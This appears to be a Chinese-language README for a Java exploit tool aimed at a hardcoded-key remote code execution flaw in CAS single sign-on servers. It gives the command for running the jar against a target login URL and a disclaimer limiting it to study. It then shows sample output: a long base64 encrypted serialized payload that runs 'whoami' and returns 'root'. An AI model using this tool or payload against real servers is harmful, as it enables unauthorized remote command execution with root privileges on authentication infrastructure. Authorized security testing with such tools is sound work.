 
CAS 硬编码 远程代码执行漏洞

使用方式

java -jar cas-0.0.1-all.jar  http://localhost:8080/cas-server/login

-----------------------cas检测工具---------------------------------

-----------本软件仅供学习交流,如作他用所承受的法律责任一概与作者无关---------

---------use: jar -jar cas-0.0.1-all.jar http://xxxx.xxxx-------  

-------------------create by maobugs----------------------------

执行命令whoami...

payload is: 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
BcnkUX4PLBLWolJgD30=

执行结果是：root


